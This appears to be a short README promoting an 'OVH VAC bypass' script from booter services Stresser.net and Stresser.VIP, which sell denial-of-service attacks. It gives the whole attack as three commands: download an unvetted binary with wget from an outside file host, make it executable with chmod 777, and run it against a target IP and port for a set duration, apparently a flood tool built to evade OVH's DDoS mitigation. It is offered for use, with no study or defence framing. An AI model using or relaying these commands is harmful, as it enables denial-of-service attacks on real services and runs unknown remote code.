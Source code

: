 # OVH-VAC-BYPASS
Stresser.net // OVH-VAC BYPASS METHOD 2021 (WHITELIST UPDATED!)


Stresser.NET & Stresser.VIP // OVH VAC BYPASS SCRIPT 2021

wget http://upload.vina-host.com/10yiIS/jeffovh

chmod 777 jeffovh

./jeffovh IP PORT 10 -1 (Time)
